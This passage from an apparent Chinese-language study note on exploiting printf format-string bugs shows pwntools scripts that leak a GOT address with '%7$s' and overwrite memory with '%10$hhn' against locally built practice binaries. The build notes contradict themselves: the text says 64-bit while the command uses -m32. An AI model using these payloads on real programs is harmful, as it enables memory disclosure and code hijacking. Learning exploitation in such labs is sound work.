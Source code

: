 执行`python printf-vuln2-exp.py`

![image-20220416215259079](/Users/liuy/workspace/PWN/img//image-20220416215259079.png)

利用printf格式化字符串漏洞成功泄漏了`__isoc99_scanf`的地址`0x804a018`

gdb调试，调试前，修改一下payload脚本

```python
from pwn import *

# context.terminal = ['tmux', 'splitw','-h']
p = process("./printf-vuln2")
code = ELF("./printf-vuln2")
# 在发送payload的之前，使用gdb attach 到 printf-vuln2
pwnlib.gdb.attach(proc.pidof(p)[0])
context(arch=code.arch, os="linux", log_level="debug")

p.recv()

p.sendline("%7$s"+p32(code.got['__isoc99_scanf']))
p.interactive()
# scanf = u32(p.recv(4))
# print(hex(scanf))

```

![image-20220416220013590](/Users/liuy/workspace/PWN/img//image-20220416220013590.png)

可以看到上述payload使用`%7$s`打印格式化字符串后第七个参数，也就是printf的第8个参数，正好是`__isoc_99_scanf`的地址。这里之所以能泄漏got表地址是因为在payload中将got表地址当参数存入到了栈中。可见只要我们**将任意地址跟在%K$s后面，就可以对该地址用%s进行解析，达到任意地址读的效果。如果%s不能解析对应的地址，就会导致程序崩溃，造成拒绝服务攻击。**

### 3.3 内存覆盖

上面我们通过`%K$s`+`任意地址`进行任意地址读。同理我们可以借助`%K$n`+`任意地址`进行任意地址写的效果。

漏洞代码同上，编译成64位：`gcc -no-pie -fno-stack-protector -m32 -o printf-vuln3 printf-vuln2.c`

Payload: `printf-vuln2-exp2.py`

```python
from pwn import *

p = process("./printf-vuln3")
code = ELF("./printf-vuln3")

context(arch=code.arch, os="linux", log_level="debug")

p.recv()

p.sendline('a'*9 + '%10$hhn' + p64(code.got['__isoc99_scanf']))
```

![image-20220416232543437](/Users/liuy/workspace/PWN/img//image-20220416232543437.png)

***当前调试技能还不太熟练，后续还要对这部分内容进行完善***

## 参考：

> https://bbs.pediy.com/thread-250858.htm

